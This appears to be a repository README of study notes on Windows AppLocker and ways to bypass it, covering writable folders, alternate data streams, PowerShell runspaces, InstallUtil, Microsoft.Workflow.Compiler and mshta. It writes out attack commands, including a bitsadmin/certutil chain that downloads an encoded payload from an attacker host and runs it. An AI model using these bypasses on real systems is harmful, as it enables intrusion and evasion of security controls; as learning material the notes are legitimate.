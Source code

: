 ## Application Whitelisting Theory
 Application whitelisting software uses a custom driver to register a callback function through this PsSetCreateProcessNotifyRoutineEx API. The callback is invoked every time a new process is created and detemine whether or not an application is whitelisted. Microsoft has multiple native application whitelisting soultions.  AppLocker was introduced in Win7 and avaiable in Win10.
 
 AppLocker includes kernel-mode driver APPID.SYS and the APPIDSVC user-mode service. APPIDSVC manages the whitelisting ruleset and identifies applications when they are run based on the callback notifications from APPID.SYS.
 
 AppLocker has 3 rule categories:
 - 1.Based on FilePath
 - 2.Based on file hash(SHA256)
 - 3.Based on digital signature

 You can access AppLocker in command prompt -> gpedit.msc(GPO configuration manager)->Local Computer Policy -> Computer
Configuration -> Windows Settings -> Security Settings -> Application Control Policies->AppLocker. There will be 4 rule propertites for 4 separate file types
- 1 .exe executable files
- 2 .msi Windows Installer files
- 3 .powershell , jscript, VB, .cmd and .bat native script files
- 4 Packaged Apps from Microsoft App Store
 
 Group Policy, AppLocker violation can be review in Windows event log. eventvwr->Applications and Services Logs -> Microsoft -> Windows -> AppLocker
 
 ## Basic Bypasses
- 1.Check permission for default rules for AppLocker whitelist all executables and scripts located in C:\Program Files, C:\Program Files (x86), and C:\Windows
- 2.Identify writable floder by a user using [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk). -u supress error, -w writable directories, -s recurese search.
```
C:\users\mst>accesschk.exe "mst" C:\Windows -wus
```
icacls can tell is a folder path is executable 
```
C:\users\mst>icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
```
- 3.The default ruleset doesn’t protect against loading arbitrary DLLs. If we were to create an unmanaged DLL, we would be able to load it and trigger exported APIs to gain
arbitrary code execution.
- 4.Alternate Date Steams is a binary file attribute that contains metadata. We can append binary data if additional streams to the original file. If we can find a file that a current user can write and execute. The below code append test.js to a log file. And we can execute it.
```
C:\Users\mst>type test.js > "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\Users\mst>wscript "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
- 5.Third Party Execution. If a third-party scripting engine like Python or Perl is installed, we could use it to very easily bypass application whitelisting.
```
C:\Users\mst>python test.py
```
## Bypass AppLocker with Powershell
Powershell Language Mode: 
- 1.FullLanguage, allows all cmdlets and the entire .NET framework as well as C# code execution.
- 2.RestrictedLanguage, allowing default cmdlets but heavily restricting much else
- 3.NoLanguage disallows all script text

ConstrainedLanguage mode (CLM) with PowerShell version 3.0, allow scripts that are located in whitelisted locations or otherwise comply with a whitelisting rule can execute with full functionality. The most significant limiation excludes calls to the .NET framework, execution of C# code and reflection.

```
PS C:\Users\mst> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```
#### Bypass Constrained language mode(CLM) with custom runsapces
Powershell call **System.Management.Automation.dll** to create runspace. This measns, we can write c# [powershellrunnerSpace.cs](/06ApplicationWhitelistingBypass/powershellrunnerSpace.cs) to creates a custom PowerShell runsapce and executes our script inside it. 

The above bypass the powershell execution, but if the AppBlocker pervent custom c# execution, our TTPs will not work. We can leverage native Windows application **InstallUtil**.
This command allows us to install and uninstall server resources by executing the installer components in a specified assembly. We are going to user uninstall method because install method reuqired admin privileges.

We can write [installer.cs](/06ApplicationWhitelistingBypass/Installer.cs) script and compile to our bypass.exe. Once compiled, we can use native windows commands to transfer our file from attack machine to target machine and exuecte it with InstallUtil command.

First, we can encode our exe on our attack machine, host the encoded file

```
C:\Users\mst>certutil -encode C:\Users\mst\Bypass.exe file.txt
```

Second trafer the file to target, decode and execute, and remove encoded file
```
C:\Users\target>bitsadmin /Transfer myJob http://yourip/file.txt C:\users\target\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\target\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= LogToConsole=false /U C:\users\target\Bypass.exe
```
Now we have a bypass method, we will update our Installer.cs to [InsallerShell.cs](/06ApplicationWhitelistingBypass/InstallerShell.cs) which use [Invoke-ReflectivePEInjection PowerShell](/03ProcessInjectionMigration/Invoke-ReflectivePEInjection.ps1) to inject a dll into explorer.exe

## Bypass AppLocker with C# via whitelisted application
The ultimate goal is to execute arbitrary C# code via a whitelisted application. It means target application must either accept a pre-compiled executable as an argument and load it into memory or compile it itself. The application must load unsigned managed code into memory. This is typically done through APIs like Load,457 LoadFile458 or LoadFrom.

- 1.We must reverse enginner assemblies which reside in whitelisted locations in search of the code segments that either load precompiled managed code or use source code
which is compiled as part of the processing.
- 2.We will use [dnSpy](https://github.com/dnSpy/dnSpy.git) to reverse engineering System.Workflow.ComponentModel.dll located in C:\Windows\Microsoft.NET\Framework64\v4.0.30319
- 3.We will follow security researcher Matt Graeber's [rbitrary, Unsigned Code Execution Vector in Microsoft.Workflow.Compiler.exe](https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb) blog for reverse engineering.
- 4.In summary, we must craft a file containing C# [Compilerbypass.cs](/06ApplicationWhitelistingBypass/Compilerbypass.cs) code, which implements a class that inherits from the Activity class and has a constructor. The file path must be inserted into the XML document along with compiler parameters organized in a serialized format using [Convertoxml.ps1](/06ApplicationWhitelistingBypass/Convertoxml.ps1) script. 
- 5.run the executable with the two input arguments, the second argument can be anything, the first argument is the output from Convertoxml.ps1 script

```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml
```
## Bypass AppLocker with JScript

Microsoft HTML Applications (MSHTA) excute .hta files with native mshta.exe. Since mshta.exe is located in C:\Windows\System32 and is a signed Microsoft application, it is
commonly whitelisted. We can execute our Jscript code with mshta.exe instead of wscript.exe to bypass application whitelisting. This is an [example Jscript code](/06ApplicationWhitelistingBypass/hiddentJscript.hta) embedded inside of HTA file.

